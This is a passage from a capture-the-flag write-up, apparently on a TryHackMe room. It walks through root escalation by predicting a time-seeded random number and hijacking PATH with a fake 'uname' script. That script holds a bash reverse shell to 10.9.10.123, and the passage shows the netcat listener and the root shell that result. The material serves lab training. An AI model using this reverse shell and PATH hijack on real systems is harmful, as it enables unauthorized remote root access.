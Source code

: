 In this we enter some value for *timeval* which is in the near future, and get out what the seeded random number would be. For this example:

{% highlight shell %}
root@kali:/opt/tryhackme/castle# gcc nonrand.c -o nonrand
root@kali:/opt/tryhackme/castle# ./nonrand 
Value:  1477455573
{% endhighlight %}

Now we need to create a malicious *uname* on the box:

{% highlight shell %}
hermonine@hogwartz-castle:/tmp$ printf '#!/bin/bash\n' >> uname
hermonine@hogwartz-castle:/tmp$ printf 'bash -i >& /dev/tcp/10.9.10.123/1234 0>&1\n' >> uname
hermonine@hogwartz-castle:/tmp$ chmod 777 uname
hermonine@hogwartz-castle:/tmp$ export PATH=/tmp:$PATH
{% endhighlight %}

Then we start a listener. Note I did try this in */dev/shm* first but it didn't work; I assume */dev/shm* was set as non-executable. It happens sometimes.

Now, we need to pass our non-random number to the binary at the right time. Presumably this is why we were given *pwntools*. We don't need it; I just spammed this leading up to the time:

``
hermonine@hogwartz-castle:/tmp$ echo '1477455573' | /srv/time-turner/swagger
``

We get a new random number once every second and the script runs fast so it's not hard to do this manually; sure enough:

{% highlight shell %}
hermonine@hogwartz-castle:/tmp$ echo '1477455573' | /srv/time-turner/swagger 
Guess my number: Nice use of the time-turner!
This system architecture is 
{% endhighlight %}

And in the listener:

{% highlight shell %}
root@kali:/opt/tryhackme/castle# nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.9.10.123] from (UNKNOWN) [10.10.79.116] 42138
root@hogwartz-castle:/tmp# id
id
uid=0(root) gid=0(root) groups=0(root),1002(hermonine)
{% endhighlight %}

Boom, pwned.
